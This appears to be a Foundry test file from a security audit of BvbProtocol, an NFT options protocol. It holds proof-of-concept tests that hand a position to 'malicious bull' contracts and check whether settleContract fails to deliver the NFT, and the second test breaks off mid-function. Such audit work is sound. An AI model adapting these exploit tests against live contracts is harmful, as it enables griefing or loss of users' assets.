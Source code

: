 ```solidity
        deal(address(weth), address(this), 0xffffffff);

        doodles.mint(bull, tokenIdBull);
        doodles.mint(address(this), tokenIdBear);

        weth.approve(address(bvb), type(uint).max);
        doodles.setApprovalForAll(address(bvb), true);

        vm.startPrank(bull);
        weth.approve(address(bvb), type(uint).max);
        doodles.setApprovalForAll(address(bvb), true);
        vm.stopPrank();

        maliciousBull1 = new BvbMaliciousBull1(address(bvb));
        maliciousBull2 = new BvbMaliciousBull2(address(bvb));
    }


  // maliciousBull1 is used in this test
    function testElku31() public {
        
        BvbProtocol.Order memory order = defaultOrder();
        bytes32 orderHash = bvb.hashOrder(order);

        bytes memory signature = signOrder(bullPrivateKey, order);
        bvb.matchOrder(order, signature);

        // Transfer position to malicious contract
        vm.prank(bull);
        
        bvb.transferPosition(orderHash, true, address(maliciousBull1));
        emit log_named_address("bull address", address(maliciousBull1));
        emit log_named_address("initial owner of nft", doodles.ownerOf(tokenIdBear));

        uint gasUsage;
        gasUsage = gasleft();
        bvb.settleContract(order, tokenIdBear);
        gasUsage = gasUsage - gasleft();
        emit log_named_uint ("gas used for settleContract", gasUsage);

        emit log_named_address("bvb", address(bvb));
        emit log_named_address("final nft owner", doodles.ownerOf(tokenIdBear));
        if(doodles.ownerOf(tokenIdBear) == address(bvb))
            emit log("NFT successfully transfered to BvbProtocol");
        else
            emit log("NFT remained with the Bull");
    }

  // maliciousBull2 is used in this test
    function testElku32() public {
        
        BvbProtocol.Order memory order = defaultOrder();
        bytes32 orderHash = bvb.hashOrder(order);

        bytes memory signature = signOrder(bullPrivateKey, order);
        bvb.matchOrder(order, signature);

        // Transfer position to malicious contract
        vm.prank(address(bull));
        
        bvb.transferPosition(orderHash, true, address(maliciousBull2));
        emit log_named_address("bull address", address(maliciousBull2));
        emit log_named_address("initial owner of nft", doodles.ownerOf(tokenIdBear));
```